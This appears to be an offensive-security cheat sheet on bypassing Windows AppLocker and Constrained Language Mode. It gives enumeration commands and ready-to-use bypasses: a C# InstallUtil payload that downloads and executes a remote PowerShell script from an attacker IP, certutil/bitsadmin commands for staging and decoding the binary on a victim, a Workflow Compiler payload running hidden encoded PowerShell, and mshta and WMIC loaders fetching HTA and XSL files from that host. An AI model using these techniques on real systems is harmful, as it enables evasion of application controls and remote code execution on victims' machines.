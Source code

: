# AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)
* [https://habr.com/ru/company/pt/blog/579516/](https://habr.com/ru/company/pt/blog/579516/)




## Enumeration

Check if there are any AppLocker rules:

```
PS > Get-AppLockerPolicy -Effective -Xml
PS > (Get-AppLockerPolicy -Local).RuleCollections
PS > Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2 -Recurse
```




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path:
```
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\snovvcrash\Bypass.exe bypass.txt
Victim > bitsadmin /transfer job1 http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```




## Microsoft.Workflow.Compiler.exe

```
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml payload.txt
```

{% code title="info.xml" %}
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>payload.txt</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```
{% endcode %}

{% code title="payload.txt" %}
```csharp
using System;
using System.Diagnostics;
using System.Workflow.Activities;
 
public class Foo : SequentialWorkflowActivity {
      public Foo() {
          Process process = new Process();
          // Configure the process using the StartInfo properties.
          process.StartInfo.FileName = "powershell.exe";
          process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
          process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
          process.Start();
          process.WaitForExit();
      }
}
```
{% endcode %}




## MSBuild

- [https://egre55.github.io/multi-stage-msbuild-applocker-bypass/](https://egre55.github.io/multi-stage-msbuild-applocker-bypass/)
- [https://github.com/Mr-Un1k0d3r/PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell)




## JScript and MSHTA

Full path to `.hta` file is required:

```
Cmd > mshta.exe \users\snovvcrash\cmd.hta
Cmd > mshta.exe http://10.10.13.37/cmd.hta
```

{% code title="cmd.hta" %}
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
{% endcode %}




# WMIC

```
Cmd > wmic os get /format:"evil.xsl"
Cmd > wmic process get brief /format:"http://10.10.13.37/evil.xsl"
```

{% code title="evil.xsl" %}
```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>");
		]]>
	</ms:script>
</stylesheet>
```
{% endcode %}

